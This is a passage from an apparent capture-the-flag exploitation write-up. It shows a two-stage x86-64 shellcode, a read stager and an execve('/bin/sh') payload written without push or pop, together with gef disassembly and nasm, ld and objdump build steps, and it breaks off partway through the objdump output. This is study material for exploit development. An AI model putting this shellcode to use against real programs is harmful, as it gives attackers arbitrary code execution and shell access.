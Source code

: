 ```
   0x7f6e87b34045:    add    rsi,0x43
   0x7f6e87b34049:    syscall
   0x7f6e87b3404b:    jmp    rsi

```

Then here is the shellcode I used to actually get a shell via an execve syscall to `/bin/sh` (remember I couldn't use pop/push). Checking the syscall chart there are four registers we need to set. I set `rax` to `0x3b` to specify an execve syscall, I set `rdi` to be a ptr to `/bin/sh`, and set `rsi` and `rdx` to zero:

```
gef➤  x/7i $rip
=> 0x7fc1735c607d:    mov    al,0x3b
   0x7fc1735c607f:    lea    rdi,[rip+0xfffffffffffffff8]        # 0x7fc1735c607e
   0x7fc1735c6086:    movabs rcx,0x68732f6e69622f
   0x7fc1735c6090:    mov    QWORD PTR [rdi],rcx
   0x7fc1735c6093:    xor    rsi,rsi
   0x7fc1735c6096:    xor    rdx,rdx
   0x7fc1735c6099:    syscall
```

Also to assemble the assembly code into opcodes, I just used nasm. Here's an example assembling the assembly file `shellcode.asm`

```
$ cat scan.asm
[SECTION .text]
global _start
_start:
  mov dl, 0xff
  lea rsi, [rel $ +0xffffffffffffffff ]
  add rsi, 0x43
  syscall
  jmp rsi
$ cat shellcode.asm
[SECTION .text]
global _start
_start:
  mov al, 0x3b
  lea rdi, [rel $ +0xffffffffffffffff ]
  mov rcx, 0x68732f6e69622f
  mov [rdi], rcx
  xor rsi, rsi
  xor rdx, rdx
  syscall
$ nasm -f elf64 scan.asm
$ ld -o scan scan.o
$ nasm -f elf64 shellcode.asm
$ ld -o shellcode shellcode.o
$ objdump -D scan -M intel

scan:     file format elf64-x86-64


Disassembly of section .text:

0000000000400080 <_start>:
  400080: b2 ff                 mov    dl,0xff
  400082: 48 8d 35 f8 ff ff ff  lea    rsi,[rip+0xfffffffffffffff8]        # 400081 <_start+0x1>
  400089: 48 83 c6 43           add    rsi,0x43
  40008d: 0f 05                 syscall
  40008f: ff e6                 jmp    rsi
$ objdump -D shellcode -M intel

```